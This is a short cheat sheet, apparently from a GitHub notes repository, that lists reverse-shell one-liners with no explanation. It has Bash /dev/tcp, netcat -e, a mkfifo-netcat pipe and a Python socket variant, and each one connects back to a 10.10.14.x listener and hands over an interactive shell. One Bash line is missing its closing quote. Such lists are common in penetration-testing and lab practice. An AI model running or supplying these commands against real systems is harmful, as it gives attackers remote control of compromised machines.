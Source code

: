 # Reverse Shells

----------------------------------------------------


### Bash  
`bash -i >& /dev/tcp/10.10.14.2/1234 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1`

### Netcat  
`nc -e /bin/bash 10.10.14.5 4444`

### Netcat(2)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.2 1234 >/tmp/f`

### Python 
`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
